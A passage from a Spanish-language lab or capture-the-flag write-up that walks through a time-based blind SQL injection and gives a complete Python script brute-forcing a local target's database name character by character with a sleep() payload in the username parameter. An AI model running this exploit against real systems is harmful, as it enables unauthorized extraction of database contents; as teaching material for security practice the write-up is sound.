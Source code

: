 Listo, podemos crearnos un script para automatizar la extracción de la data.

**(Si recordamos cuando encontramos el archivo `db.php` habla de la base de datos llamada `bread`, podríamos saltarnos este paso, pero igual se los quiero mostrar para que vean como es el proceso)**

...

### SQL injection - time based (blind) [⌖](#sqli-blind) {#sqli-blind}

---

##### Obtenemos nombre de la <u>base de datos</u>.

👀

```py
#!/usr/bin/python3

import requests, time
from pwn import *

url = "http://localhost:1234/index.php"

p1 = log.progress("SQLi blind")
p2 = log.progress("Database name")

session = requests.Session()

# Creamos nuestro "diccionario"
dic_letters = "abcdefghijklmnopqrstuvwxyz0123456789.+!$#-~}:\"\'{*][%,&/\)(=ABCDEFGHIJKLMNOPQRSTUVWXYZ"
result = ""

# Recorrera 16 posiciones en la palabra, osea para intentar encontrar 16 caracteres
for position in range(1, 16):
    # Toma cada caracter de nuestro "dic"
    for letter in dic_letters:
        # Extrae el tiempo antes de la peticion
        time_now = time.time()

        payload = "?method=select&"
        payload += "username=administrator' and if(substr(database(),%d,1)='%s',sleep(3),1) and '1'='1&" % (position, letter)
        payload += "table=passwords"

        p1.status(payload)
        r = session.get(url + payload)

        # Extrae el tiempo despues de la peticion
        time_after = time.time()

        # Validamos los tiempos, si hay diferencia de 3 o más, sabemos que esa peticion hablo con la base de datos, por lo tanto extraemos la letra 
        if time_after - time_now > 2:
            result += letter
            p2.status(result)
            break

p1.success("Done")
p2.success(result)
```
